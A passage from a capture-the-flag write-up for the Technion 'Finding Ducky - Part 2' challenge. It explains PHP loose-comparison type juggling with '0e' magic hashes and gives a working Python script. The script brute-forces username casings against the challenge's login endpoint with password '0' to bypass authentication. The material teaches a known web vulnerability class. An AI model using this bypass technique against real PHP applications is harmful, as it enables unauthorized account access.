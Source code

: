 ```console
┌──(user@kali)-[/media/sf_CTFs/technion/Finding_Ducky_-_Part_2]
└─$ php -r 'echo "0e1234" == "0";'
1
```

That is, PHP considers a string which starts with `0e` and continues only with digits as an integer represented with its scientific notation, and converts it to a `0`. It does the same for the string `"0"`, making both sides of the comparison equal.

Now, since `md5` outputs a result which consists of characters `[0-9a-f]`, including `e` of course, and this result is later trimmed to contain just five characters, if we can generate enough inputs for the hash function we have a chance of `(1/16) * (1/16) * (10/16) * (10/16) * (10/16)` to generate an output of `0e` followed by three digits. How do we generate different inputs? Notice how the first condition uses `stripos` and not `strpos`, making it case insensitive. This means that we can try all case combinations, giving us `2**len("DuckyDebugDuck")` attempts.

```python
from pwn import *
import requests

URL = "https://webby.ctf.cs.technion.ac.il/ducky/message.php"

def all_casings(input_string):
    # https://stackoverflow.com/questions/6792803/
    if not input_string:
        yield ""
    else:
        first = input_string[:1]
        if first.lower() == first.upper():
            for sub_casing in all_casings(input_string[1:]):
                yield first + sub_casing
        else:
            for sub_casing in all_casings(input_string[1:]):
                yield first.lower() + sub_casing
                yield first.upper() + sub_casing


def login(username, password):
    r = requests.post(URL, data = {"name": username, "password": password})
    if "pre" in r.text:
        return r.text
    return None

with log.progress("Attempting to login") as p:
    for username in all_casings("DuckyDebugDuck"):
        p.status(f"Trying username {username}")
        res = login(username, "0")
        if res is not None:
            log.info(f"Found username: {username}")
            log.info("Result:\n" + res)
            break
```
